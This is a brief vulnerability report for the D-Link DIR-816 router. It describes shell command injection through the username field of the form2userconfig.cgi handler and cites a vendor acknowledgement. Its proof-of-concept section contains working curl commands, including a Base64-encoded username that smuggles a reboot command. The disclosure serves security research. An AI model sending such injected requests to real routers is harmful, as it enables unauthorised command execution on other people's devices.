 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.
漏洞厂商已认可https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10240

##### POC&&EXP
First, get the tokenid 
```
curl -s http://192.168.33.9/dir_login.asp  | grep tokenid
```
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=IjtyZWJvb3Q7Ig==&oldpass=123&newpass=MTIz&confpass=MTIz&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send&tokenid=xxxxx"#input id
```
It will decode our command Base64 and execute it 

